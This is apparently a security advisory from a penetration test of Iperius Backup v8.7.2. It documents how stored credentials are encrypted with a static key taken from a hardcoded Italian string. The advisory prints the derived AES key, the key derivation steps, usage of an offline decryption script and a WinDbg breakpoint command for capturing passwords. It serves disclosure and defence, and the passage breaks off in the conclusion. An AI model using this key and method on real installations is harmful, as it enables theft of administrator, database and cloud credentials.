# Universal Credential Recovery via Static Encryption Key

## Overview

| Field | Details |
|-------|---------|
| **Finding ID** | Universal Credential Recovery via Static Encryption Key |
| **Severity** | Moderate |
| **CVSS v3.1** | 6.5 (`AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`) |
| **Affected Version** | Iperius Backup v8.7.2 |
| **Attack Vector** | Local (offline decryption possible after file exfiltration) |
| **Privileges Required** | Low (read access to configuration file) |

## Description

The Iperius Backup application stores sensitive user credentials — including Domain Administrator, SQL Database, SMTP, and Cloud Storage passwords — in a local configuration file (`IperiusAccounts.ini`) using a hard-coded, static encryption key that is identical across all installations.

The complete encryption scheme was reverse-engineered from the application binary through static analysis (Ghidra) and dynamic analysis (WinDbg). Credentials are encrypted using **AES-256-CBC** via the **TurboPower LockBox 3** Delphi library. The AES-256 key is derived from a hardcoded Italian-language string `"Errore: cartella già esistente. Ricrearla ?"` using a single **SHA-1** iteration with non-standard key expansion (the 20-byte SHA-1 digest is padded to 32 bytes by repeating the first 12 bytes). The key is **machine-independent** — it is not derived from any per-machine value such as `MachineGuid`.

Because the complete encryption algorithm, key derivation function, and ciphertext format have been recovered, an attacker can decrypt **all** stored credentials **fully offline** using a standalone Python script, without access to the Iperius Backup application or the target machine.

Additionally, the application can be used as a **Decryption Oracle** — the attacker copies the encrypted credential into a Network Share (SMB) account entry, triggers a connection, and intercepts the plaintext password at the `mpr!WNetAddConnection2W` API call using a debugger.

---

## Evidence

### Step 1: Locating the Credentials File

The Iperius Backup application stores all configured credentials in the following configuration file:

```
C:\ProgramData\IperiusBackup\IperiusAccounts.ini
```

This file contains encrypted passwords for all account types configured within the application, including Windows/Network (SMB), SQL Database, SMTP, FTP, and Cloud Storage accounts. The file is readable by local users.



### Step 2: Reverse Engineering the Encryption Scheme — Static Analysis

#### 2.1 Identifying the Encryption Wrapper (`0x0098F444`)

Static analysis of the `Iperius.exe` binary identified the main encryption/decryption function at address `0x0098F444`. This function creates a TurboPower LockBox 3 `TCodec` object and configures the full encryption pipeline:

```asm
; Function: Encrypt/Decrypt credential string
; Address:  0x0098F444

0098F479    cmp     dword ptr [ebp-8], 0    ; Is password argument empty?
0098F47D    jne     0098F487                ; No -> use provided password
0098F482    call    019832AC                ; Yes -> load hardcoded default password

0098F490    call    TCodec.Create           ; Create LockBox 3 codec object
0098F4A2    call    TCryptographicLibrary.Create

0098F4BF    mov     edx, 'native.StreamToBlock'   ; Stream cipher adapter
0098F4C7    call    00971C60                       ; SetStreamCipher
0098F4CC    mov     edx, 'native.AES-256'         ; AES-256 block cipher
0098F4D4    call    009718DC                       ; SetBlockCipher
0098F4D9    mov     edx, 'native.CBC'             ; CBC chain mode
0098F4E1    call    00971904                       ; SetChainMode

0098F4E6    mov     edx, [ebp-8]            ; Load encryption password
0098F4EC    call    00971B38                ; TCodec.SetPassword
0098F4F9    call    TCodec.EncryptString    ; Perform encryption
```

The function configures: **AES-256** block cipher, **CBC** chain mode, **StreamToBlock** stream adapter. If no password argument is provided, the function calls `0x019832AC` to load a hardcoded default.



#### 2.2 Extracting the Hardcoded Password (`0x019832AC`)

The default password function at `0x019832AC` unconditionally loads a static Italian-language error message:

```asm
; Function: Load default encryption password
; Address:  0x019832AC

019832AC    push    ebx
019832AD    mov     ebx, eax
019832B1    mov     edx, 019832CC       ; -> "Errore: cartella gia' esistente. Ricrearla ?"
019832B6    call    @UStrLAsg           ; Assign Unicode string to [ebx]
019832BB    pop     ebx
019832BC    ret
```

**Hardcoded password:** `Errore: cartella già esistente. Ricrearla ?`

This string is used as the encryption password for **all** credential types across **all** installations.



#### 2.3 Password Flow Through the Codec (`0x00971B38`)

The `TCodec.SetPassword` function at `0x00971B38` stores the password into the codec's internal `FPassword` field at `[ebx+48h]` and passes it through the `ICodec` interface via vtable offset `+48h`:

```asm
; Function: TCodec.SetPassword
; Address:  0x00971B38

00971B51    lea     eax, [ebx+48h]      ; FPassword field
00971B54    mov     edx, esi            ; Password string
00971B56    call    @UStrLAsg           ; Store password
00971B5B    cmp     [ebx+48h], 0        ; Non-empty?
00971B5F    je      00971B68
00971B61    call    0097195C            ; Initialize codec with password

; Later, password is passed to ICodec:
00971B94    mov     edx, [ebx+48h]      ; Load password
00971B97    mov     ecx, [eax]          ; ICodec vtable
00971B99    call    [ecx+48h]           ; ICodec.SetPassword
```

### Step 3: Reverse Engineering the Encryption Scheme — Dynamic Analysis (WinDbg)

Static analysis identified the encryption components, but the exact Key Derivation Function (KDF) and ciphertext format required runtime confirmation. WinDbg was attached to the `Iperius.exe` process to trace the encryption pipeline.

**Note:** ASLR was active during the debugging session. The application loaded at base `0x004C0000` instead of the expected `0x00400000`, requiring an offset of `+0xC0000` for all addresses.

#### 3.1 Confirming the Password at Runtime

A breakpoint was set at the `ICodec.SetPassword` vtable call to confirm the password string is passed as-is to the encryption engine:

```
0:000> bu 00A4F444              ; Encrypt wrapper (with ASLR offset)
0:000> g
Breakpoint hit at 00A4F444

0:000> bp 00A31A5A              ; ICodec.SetPassword call [ecx+48h]
0:000> g
Breakpoint hit at 00A31A5A

0:000> du edx
1819f354  "Errore: cartella gia' esistente. Ricrearla ?"
```



#### 3.2 Confirming Plaintext Format at Encryption Input

A breakpoint at the `StreamToBlock.WriteData` function (`0x00A30140`) captured the plaintext data immediately before encryption:

```
0:000> bp 00A30140              ; StreamToBlock.WriteData
0:000> g
; Encrypting test string "aaa" (3 chars)
0:000> r ecx
ecx=00000006

0:000> db edx L ecx
1c28df4c  61 00 61 00 61 00                                a.a.a.
```

The plaintext enters the encryption engine as **raw UTF-16LE bytes** with no additional encoding or framing.



#### 3.3 Proving the Key Derivation Function

The AES-256 key derivation was confirmed by computing the key from the hardcoded password and successfully decrypting known ciphertext/plaintext pairs.

**KDF algorithm:**

```
sha1_digest = SHA-1( password.encode('utf-16-le') )    -> 20 bytes
aes256_key  = sha1_digest || sha1_digest[0:12]         -> 32 bytes
```

**Step-by-step derivation:**

```
[1] Hardcoded password: Errore: cartella gia' esistente. Ricrearla ?

[2] SHA-1(password_UTF16LE):
    312eb9319e1e8c3c8db2930621dc2d9c900e2985  (20 bytes)

[3] AES-256 Key = SHA-1 + repeat first 12 bytes:
    312eb9319e1e8c3c8db2930621dc2d9c900e2985  <- SHA-1 digest (20 bytes)
    312eb9319e1e8c3c8db29306                  <- repeat of bytes 0-11

[4] Verification:
    key[ 0:12] = 312eb9319e1e8c3c8db29306
    key[20:32] = 312eb9319e1e8c3c8db29306
    Match: True
```



### Step 4: Complete Decryption Validation

| Plaintext | Ciphertext (Base64) | Result |
|-----------|---------------------|--------|
| `p@ssw0rd` | `tj1G8QXCPZM+FdRHSeA9SFNeupWnrTAC` | Decrypted correctly |
| `abcdefgh` | `2ycesT3tnVMqWz82SV40O7l1xEWpHSpn` | Decrypted correctly |
| `aaaaaaaaaaaaaaaa` | `NbZ3QjLU4HopP5zsrTfWoknppTnNm0QL6qd8OyQeR5S44QyYq7n2GA==` | Decrypted correctly |



### Step 5: Proof of Concept — Offline Decryption Script

A standalone Python script was developed that decrypts any Iperius Backup credential without requiring the application, a debugger, or access to the target machine. The full source code is available at [`poc/decrypt_iperius.py`](../poc/decrypt_iperius.py).

**Usage:**

```bash
$ python3 decrypt_iperius.py 'tj1G8QXCPZM+FdRHSeA9SFNeupWnrTAC'
Decrypted: p@ssw0rd
```



### Step 6 (Alternative): Decryption Oracle via API Interception

For scenarios where an attacker prefers not to use the Python script, the application itself can serve as a Decryption Oracle:

1. The attacker obtains the `IperiusAccounts.ini` file from the target system (readable by local users).
2. On any machine with Iperius Backup installed, the attacker creates a Network Share (SMB) account entry containing the encrypted credential from the target's configuration. Since the encryption key is static and machine-independent, the same encrypted string will be recognized by any installation.
3. The attacker attaches WinDbg and sets a breakpoint on `WNetAddConnection2W`:

```
bu mpr!WNetAddConnection2W ".printf \"\\n>>> CAPTURED CREDENTIALS <<<\\nShare Path: %mu\\nUsername:   %mu\\nPassword:   %mu\\n\", poi(poi(esp+4)+14), poi(esp+c), poi(esp+8); g"
```

4. The attacker triggers the connection by clicking **"Test Connection"** on a backup job referencing this account.







---

## Complete Encryption Scheme Summary

| Parameter | Value |
|-----------|-------|
| **Crypto Library** | TurboPower LockBox 3 (Delphi) |
| **Block Cipher** | AES-256 (`'native.AES-256'`) |
| **Chain Mode** | CBC (`'native.CBC'`) |
| **Stream Adapter** | StreamToBlock (`'native.StreamToBlock'`, SeedByteSize=8) |
| **Hardcoded Password** | `Errore: cartella già esistente. Ricrearla ?` |
| **Password Encoding** | UTF-16LE (Delphi UnicodeString) |
| **Key Derivation** | SHA-1(password_UTF16LE) → 20 bytes, repeat first 12 → 32 bytes |
| **AES-256 Key (hex)** | `312eb9319e1e8c3c8db2930621dc2d9c900e2985312eb9319e1e8c3c8db29306` |
| **IV Construction** | `ciphertext[0:8] \| 0x00 * 8` |
| **Ciphertext Format** | `Base64( [8-byte random seed] \| [AES-256-CBC(UTF-16LE plaintext)] )` |
| **Plaintext Encoding** | UTF-16LE (raw, no header or framing) |

---

## Key Function Address Reference

All addresses are given relative to the default image base `0x00400000`.

| File Address | Runtime (ASLR) | Function / Purpose |
|---|---|---|
| `0x019832AC` | `0x01A432AC` | Load hardcoded password string |
| `0x0098F444` | `0x00A4F444` | Encrypt/Decrypt wrapper (creates TCodec, configures AES-256/CBC/StreamToBlock) |
| `0x009713EC` | `0x00A313EC` | `TCodec.EncryptString` |
| `0x00971B38` | `0x00A31B38` | `TCodec.SetPassword` — stores password into codec |
| `0x00971A5A` | `0x00A31A5A` | `ICodec.SetPassword` vtable call `[ecx+48h]` |
| `0x0096C658` | `0x00A30658` | `ICodec.EncryptString` implementation (via vtable `[esi+9Ch]`) |
| `0x0096C140` | `0x00A30140` | `StreamToBlock.WriteData` — plaintext bytes enter here |
| `0x0096C80C` | `0x00A3080C` | `StreamToBlock.End_Encrypt` — finalization |
| `0x0096C2BB` | `0x00A302BB` | `ChainMode.ProcessBlock` call `[ecx+0Ch]` |
| `0x0096386B` | `0x00A2786B` | Block cipher encrypt call `[ebx+20h]` — AES encrypt entry |

---

## Conclusion and Security Assessment

During the penetration testing activities, the complete encryption scheme protecting Iperius Backup credentials was reverse-engineered through static analysis (Ghidra) and dynamic analysis (WinDbg). The application uses a **hard-coded, static encryption key** derived from an Italian error message string embedded in the binary. The key derivation uses a single SHA-1 iteration with non-standard key expansion, providing no meaningful protection against offline attacks.

The attack technique is particularly impactful because:

- It is **universal**: any credential type stored by the application (SMB, SQL, SMTP, FTP, Cloud) is encrypted with the same key and algorithm.
